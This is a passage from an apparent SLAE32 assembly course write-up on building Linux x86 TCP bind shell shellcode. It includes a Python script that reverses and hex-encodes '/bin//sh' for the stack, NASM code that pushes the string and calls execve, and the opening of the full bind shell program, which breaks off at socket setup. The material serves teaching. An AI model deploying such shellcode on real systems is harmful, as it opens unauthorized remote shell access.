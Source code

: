 Since "/bin/sh" is only 7 bytes, we need to make it 8 bytes. That is because when a string is pushed to the stack it must be multiplied by 4. The safest way to do that, without breaking any functionality, is to add a `/`. So the string `/bin/sh` becomes `/bin//sh`. The following string would be valid too `//bin/sh`. Since we are dealing with the stack again, the string must be reversed first. The next `python` script will help achieve that.

```python
#!/usr/bin/python

import sys

input = sys.argv[1]

print 'String length: ' + str(len(input))

stringList = [input[i:i+4] for i in range(0, len(input), 4)]

for item in stringList[::-1]:
	print item[::-1] + ' : ' + str(item[::-1].encode('hex'))
```

We run the above script by providing the string we want to be reversed.

```shell
geobour98@slae32-dev:~/SLAE/custom/SLAE32/1_Shell_bind_tcp$ ./reverse.py "/bin//sh"
String length: 8
hs// : 68732f2f
nib/ : 6e69622f
```

Now the string is represented as `hex` and we can push it to the stack. So we push first the string "hs//" and then the string "nib/".

```nasm
        ; PUSH /bin//sh
        push 0x68732f2f		; "hs//"
        push 0x6e69622f		; "nib/"
```

Finally, we save `ESP` value to the `EBX` register in order to point at the top of the stack and execute the `execve` syscall.

```nasm
	mov ebx, esp		; ebx points at "/bin//sh" at the top of the stack

	int 0x80		; exec execve syscall
```

The whole `Assembly` program is the following:

```nasm
; TCP Bind Shell
; Author: geobour98 

global _start

section .text

_start:
	; socket 
	xor eax, eax
	mov ax, 0x167		; 167 is the hex value of the decimal 359 for socket

	xor ebx, ebx
	mov bl, 0x2		; AF_INET numeric value from PF_INET protocol family

	xor ecx, ecx
	mov cl, 0x1		; SOCK_STREAM constant from socket_type.h

```